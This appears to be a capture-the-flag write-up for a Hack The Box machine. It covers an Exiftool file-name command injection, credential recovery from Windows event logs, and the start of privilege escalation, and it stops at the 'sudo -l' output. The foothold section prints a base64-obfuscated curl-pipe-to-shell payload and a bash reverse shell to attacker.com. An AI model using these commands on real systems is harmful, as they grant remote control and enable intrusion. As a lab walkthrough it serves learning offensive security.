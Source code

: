 
# Gaining foothold
On `http://eforenzics.htb`, found a foothold to do with an old vulnerable version of Exiftools that allows [[Arbitary command execution]], using the upload file name:

```bash
echo Y3VybCBpcC9yZXZlcnNlc2hlbGwuc2h8c2g|base64 -d|sh |
```
Where `Y3VybCBpcC9yZXZlcnNlc2hlbGwuc2h8c2g` = `curl ip/reverseshell.sh|sh`

Contents of `reverseshell.sh` (from [[GTFO Bins]]):
```bash
export RHOST=attacker.com
export RPORT=12345
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Gained foothold to `www-data`.

# Lateral movement
Using `crontab -l` , notice something interesting in directory, from which I get `Windows Log Event.msg`. I transfer file to localhost using [[nc]], convert it to `eml` file format, then opening it using [[thunderbird]]. Notice an attached zip file which I save and extract. Extracted file is in [[evtx]] format. We notice an event with ID 4625 (**Login Error**) where the `smorton` user incorrectly inputs his password in the username section.

We ssh into `smorton` with the found credentials.

# PrivEsc
Using `sudo -l`:
```bash
Matching Defaults entries for smorton on investigation:
   env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/s. nap/bin

User smorton may run the following commands on investigation:
   (root) NOPASSWD: /usr/bin/binary
```

